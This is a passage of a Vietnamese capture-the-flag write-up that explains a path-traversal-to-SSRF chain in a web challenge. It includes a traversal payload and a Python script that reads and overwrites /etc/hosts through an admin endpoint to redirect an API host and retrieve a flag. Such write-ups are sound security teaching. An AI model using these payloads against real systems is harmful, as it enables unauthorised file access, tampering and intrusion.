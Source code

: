 Nếu check source của hàm `infoRequestBuilder` thì thấy là nó có thể bị path traversal nếu `mal_id` truyền vào không được sanitize.

```javascript
infoRequestBuilder(
    endpointBase: string,
    id: number | string,
    extraInfo?: string
): string {
    if (typeof extraInfo === "string") {
        return `${endpointBase}/${id}/${extraInfo}`;
    } else {
        return `${endpointBase}/${id}`;
    }
}
```
=> Path traversal từ `http://api.jikan.moe/v4/producers/${id}/full` về `/admin/flag` để lấy flag 2.

=> `mal_id` = `..%2f..%2fadmin%2fflag%23` => `http://api.jikan.moe/admin/flag#/full`

Sau khi ssrf lấy flag 2 xong thì sẽ được lưu trong cache, ta có thể dễ dàng xem nó bằng account của admin.

![alt text](cachepage.png)

Script:
```python
############## PART 2 ##############
print("[!] ############## PART 2 ##############")
print("[!] Reading /etc/hosts")
res = sess.get(url + '/admin/archive/..%2fetc%2fhosts')
etc_hosts_content = res.text.split("</textarea>")[0].split(">")[-1]
print(etc_hosts_content)
print("[!] Adding api.jikan.moe to /etc/hosts as 127.0.0.1")
new_etc_hosts_content = etc_hosts_content + "127.0.0.1\tapi.jikan.moe\n"
sess.post(url + '/admin/archive/..%2fetc%2fhosts', data={'content': new_etc_hosts_content})
print("[!] Triggering SSRF")
sess.get(url + '/studio/..%2f..%2fadmin%2fflag%23')
print("[!] Reading FLAG 2 from cache")
res = sess.get(url + '/admin/cache')
flag2 = re.findall(f'{flag_prefix}{% raw %}{{.*?}}{% endraw %}', res.text)[0]
print(f"[+] GOT FLAG 2: {flag2}")
```

![alt text](flag2.png)

=> Flag 2: `HCMUS-CTF{Sh0uldnt_h4v3_1mpl3m3nt3d_1t}`

## BALD

![alt text](chall3.png)

Để lấy flag cuối cùng thì ta cần phải có acc có role `super_admin`
